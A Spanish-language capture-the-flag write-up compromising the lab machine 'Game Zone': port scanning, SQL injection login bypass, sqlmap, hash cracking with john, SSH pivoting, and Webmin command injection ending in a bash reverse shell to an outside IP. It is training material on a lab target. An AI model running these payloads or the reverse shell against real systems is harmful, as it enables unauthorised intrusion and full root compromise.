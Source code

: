 # Game Zone

```bash
sudo nmap -sS -p- --min-rate 4000 --open -vvv -Pn -n 10.10.196.59 -oG allports
nmap -sC -sV -p 22,80 10.10.196.59 -oN targeted
```

![0415150332](0415150332.png)

## 80

Nos encontramos con una página con un formulario para logearnos y usaremos sql bypass para logearnos

```
Log in: 'or 1=1 -- -
Password: ' or 1=1 -- -
```

![0415160453](0415160453.png)

Con eso logramos entrar a la pagina portal.php

![0415160426](0415160426.png)

sale un mensaje de error al colocar `'`, entonces usaremos burp suite para interceptar esa consulta y aplicaremos esa en sqlmap

![0415170533](0415170533.png)

![0415180606](0415180606.png)

Guardamos el hash en un archivo para usar john de ripper para crackearlo

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![0415180625](0415180625.png)

`videogamer124`

## SSH

```bash
ssh agent47@10.10.196.59
```

Entramos a la maquina con la contraseña encontrada y sacamos la flag user.txt

## Analizando las redes en la maquina

```bash
ss -tulpn
```

![0415180636](0415180636.png)

Tiene una servicio corriendo en el puerto 10000, entonces haremos un local port forwarding de ese puerto.

```bash
ssh -L 10000:localhost:10000 agent47@10.10.196.59
```

Encontramos un panel de webmin, ahora entramos con las credenciales que encontramos antes, pero ahora buscaremos en searchsploit si es que existe algún exploit.

Solo hay exploit con metasploit, pero podemos leer que es lo que hace para intentarlo de otra manera.

![0415190722](0415190722.png)

usamos -x para leerlo y -m para descargar el exploit

![0415190726](0415190726.png)

En la primera parte vemos que entra a /file/show.cgi/bin/ luego ingresa un numero aleatorio y de ahí ingresa un comando para ejecutar.

Al probar sería así:

![0415190706](0415190706.png)

Entonces para sacar la flag de root sería entrando a `http://localhost:10000/file/show.cgi/bin/7|cat /root/root.txt|`

## Rever Shell

primero deberemos escuchar con `nc -lvp 4444`

```http
http://localhost:10000/file/show.cgi/bin/7|echo "bash -i >& /dev/tcp/10.13.13.243/4444 0>&1
">/tmp/shell.sh|

http://localhost:10000/file/show.cgi/bin/7|bash /tmp/shell.sh|
```

